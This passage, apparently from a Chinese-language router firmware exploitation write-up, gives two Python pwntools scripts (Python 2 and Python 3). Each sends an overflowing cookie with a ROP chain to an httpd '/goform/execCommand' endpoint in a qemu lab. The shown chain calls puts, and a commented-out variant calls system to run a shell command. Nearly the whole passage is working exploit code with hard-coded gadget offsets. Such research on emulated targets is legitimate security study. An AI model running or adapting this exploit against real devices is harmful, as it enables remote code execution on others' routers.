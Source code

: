gadget运行原理可以看之前的文章

# 4.exp.py

不过由于是qemu-user模式可能无法正常成功创建aaaa文件可以用这个exp.py验证输出hello world!!!!

```python
# python2
import requests
from pwn import *

context.binary = "squashfs-root/bin/httpd"
# context.log_level = "debug"
libc = ELF("squashfs-root/lib/libc.so.0")
puts_offset = libc.symbols["puts"]

libc_base_addr = 0xf65e5000
pop_r3_pc = libc_base_addr + 0x00018298
mov_r0_sp_blx_r3 = libc_base_addr + 0x00040cb8
puts_addr = libc_base_addr + puts_offset

ip  = "192.168.111.128"
url = "http://%s/goform/execCommand"%ip
# cookie = {"Cookir":"password="+cyclic(444) + ".gif" 
# + flat(libc_base_addr+pop_r3_pc, libc_base_addr+system_offset, libc_base_addr+mov_r0_sp_blx_r3)+ "touch ./abcd" }

cookie = {"Cookir":"password="+cyclic(444) + ".gif" 
+ flat(pop_r3_pc, puts_addr, mov_r0_sp_blx_r3)+ "hello world!!!!!" }

ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

或者是python3

需要把pwntools生成的payload使用'LATIN1'进行encoding

```python
# python3
import requests
from pwn import *

context.binary = "bin/httpd"
# context.log_level = "debug"
libc = ELF("lib/libc.so.0")
puts_offset = libc.symbols["puts"]

libc_base_addr = 0xf65e5000
pop_r3_pc = libc_base_addr + 0x00018298
mov_r0_sp_blx_r3 = libc_base_addr + 0x00040cb8
puts_addr = libc_base_addr + puts_offset

ip  = "192.168.129.131"
url = "http://%s/goform/execCommand"%ip
# cookie = {"Cookir":"password="+cyclic(444) + ".gif" 
# + flat(libc_base_addr+pop_r3_pc, libc_base_addr+system_offset, libc_base_addr+mov_r0_sp_blx_r3)+ "touch ./abcd" }

#print(type(cyclic(400)))
#print(type(flat(pop_r3_pc, puts_addr, mov_r0_sp_blx_r3)))

cookie = {"Cookir":"password="+str(cyclic(444), encoding='LATIN1') + ".gif"\
+ str(flat(pop_r3_pc, puts_addr, mov_r0_sp_blx_r3), encoding='LATIN1')+ "hello world!!!!!" }

```